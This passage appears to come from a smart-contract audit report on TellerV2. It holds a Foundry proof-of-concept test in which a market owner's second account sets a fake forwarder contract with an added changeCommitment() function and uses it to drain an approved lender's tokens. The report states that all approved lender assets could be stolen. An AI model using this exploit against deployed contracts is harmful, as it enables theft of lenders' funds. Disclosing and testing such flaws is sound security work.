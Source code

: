 ```solidity
            collateralTokenId: 0,
            maxPrincipalPerCollateralAmount: 0,
            collateralTokenType: LenderCommitmentForwarderFake.CommitmentCollateralType.NONE,
            lender: address(lender),
            marketId: 1,
            principalTokenAddress: address(lendingToken)
        });
        
        address[] memory borrowersWL2 = new address[](1);
        borrowersWL2[0] = address(attacker);
        lenderCommitmentForwarderFake.changeCommitment(commitment2, borrowersWL2,0);
        vm.stopPrank();
        
        vm.startPrank(attacker);
        tellerV2.approveMarketForwarder(1,address(lenderCommitmentForwarderFake));
        lenderCommitmentForwarderFake.acceptCommitment(
            0,
            100e18,
            0,
            0,
            address(lendingToken),
            10_00,
            365 days
        );

        console.log("===========================AFTER attack=============================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("attacker ERC20 balance:          ",lendingToken.balanceOf(address(attacker)));
       
    }
}
```

Before `acceptCommitment()` by attacker(second account of marketOwner) he has to change commitment in mapping using this function at custom SC(which he set before using `setTrustedMarketForwarder()` in` TellerV2.sol`.
Full code of `LenderCommitmentForwarderFake.sol` is represented here:
(compared to the original contract, there is only one change , added  function `changeCommitment()`)
https://gist.github.com/dingo2077/9accab4e4ab7e3a70c2a240733f5bdbb
![image](https://user-images.githubusercontent.com/106747559/233773811-c94c2b05-fb31-4a65-8467-f36fd8ab49a5.png)

As a result of test we see successfull attack:
![image](https://user-images.githubusercontent.com/106747559/233773995-492d60b1-3af6-434e-bf48-43311c6d97bc.png)


## Impact
All approved lender's assets could be stolen by marketOwner.
